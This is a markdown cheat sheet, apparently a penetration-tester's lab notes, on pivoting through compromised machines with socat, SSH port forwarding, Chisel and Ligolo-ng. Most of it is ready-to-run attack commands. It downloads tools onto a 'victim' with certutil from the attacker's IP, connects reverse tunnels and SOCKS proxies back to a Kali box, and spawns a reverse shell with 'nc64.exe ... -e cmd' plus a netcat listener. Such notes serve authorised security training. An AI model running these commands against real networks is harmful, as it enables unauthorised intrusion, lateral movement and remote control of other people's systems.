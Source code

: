 # SOCAT
```bash
#run it on victims machine
socat -ddd TCP-LISTEN:2345,fork TCP:<victim-ip>:5432
```
-----------------------
# SSH


#* *Local port forwarding* Created with option -L
```bash
   ssh -N -L 0.0.0.0:4455:172.16.50.217:445 user@server
```
#* *Dynamic port forwarding*: Created with option -D
```bash
   ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```
#* *Remote port forwarding*: Created with option -R
   First we start a local ssh server
```bash
   sudo systemctl start ssh
```
   Then we connect back to it from the remote machine. In this case,
   we want to listen on port 2345 on our Kali machine
   (127.0.0.1:2345), and forward all traffic to the PostgreSQL port
   on PGDATABASE01 (10.4.50.215:5432).
```bash
   ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```
#* *Remote dynamic port forwarding*: Created with option -R but without specifying endpoints.
   First we start a local ssh server
```bash
   sudo systemctl start ssh
```
   Then we connect back to it from the remote machine. This creates
   a SOCKS5 proxy on our local machine at that port which is able to
   access all interfaces that are available to the victim machine.
```bash
   ssh -N -R 9998 kali@192.168.118.4
```
-----------------------
# CHISEL
| For double pivoting https://ap3x.github.io/posts/pivoting-with-chisel/

First we download the executable on the remote machine
```bash
certutil -urlcache -split -f "http://<kali-ip>/chisel64.exe" chisel64.exe
```
then we start the executable on our linux attacker box
```bash
./chisel64.elf server -p 8000 --reverse
```
and then we connect to it from the remote machine using our IP during the connection.
```bash
chisel64.exe client <kali-ip>:8000 R:socks
```
This, by default, will create a SOCKS5 proxy within the endpoint
127.0.0.1:1080 of our local machine. To access that proxy we can
edit the proxychains conf in order to put at the end
```bash
socks5 127.0.0.1 1080

```
-----------------------
# CHISEL Single port

First we download the executable on the remote machine
```bash
certutil -urlcache -split -f "http://<kali-ip>/chisel64.exe" chisel64.exe
```
then we start the executable on our linux attacker box
```bash
./chisel64.elf server -p 8000 --reverse
```
and then we connect to it from the remote machine using our IP during the connection.
```bash
./chisel client 192.168.45.222:8080 R:8000:127.0.0.1:8000
```
-----------------------
# Ligolo

Download agent for victim from ligolo-updates or use the ones in transfers
1. Transfer the agent to the victim
https://www.youtube.com/watch?v=DM1B8S80EvQ&ab_channel=GonskiCyber
| For double pivoting refer to this link https://systemweakness.com/double-pivoting-for-newbies-with-ligolo-ng-4177b3f1f27b

Add ligolo interface (in kali)
```bash
sudo ip tuntap add user sombi mode tun ligolo
sudo ip link set ligolo up
```
In kali run proxy (in kali)
```bash
./proxy -selfcert
```
In victim connect back to our kali (in victim)
```bash
.\agent.exe -connect 192.168.45.210:11601 -ignore-cert
```
Attach session (in kali/ligolo)
```bash
session [session to attach]
```
Get internal ip (in kali/ligolo)
```bash
ifconfig
```
Add internal interface to routes (in kali)
```bash
sudo ip route add 10.10.103.0/24 dev ligolo
sudo ip route add 240.0.0.1/32 dev ligolo (for 127.0.0.1 running port)

ip route list
```
Start pivoting (in kali/ligolo)
```bash
start
```
(Reverse shells)

Add a listener to our session (in kali/ligolo)
```bash
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
```
On machine that cannot reach us
```bash
nc64.exe <ip-of-machine-running-agent> 1234 -e cmd

# On kali
rlwrap nc -lvnp 4444

(Double Pivot)
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
session [attach 2]
ifconfig
sudo ip route add 10.20.103.0/24 dev ligolo
```
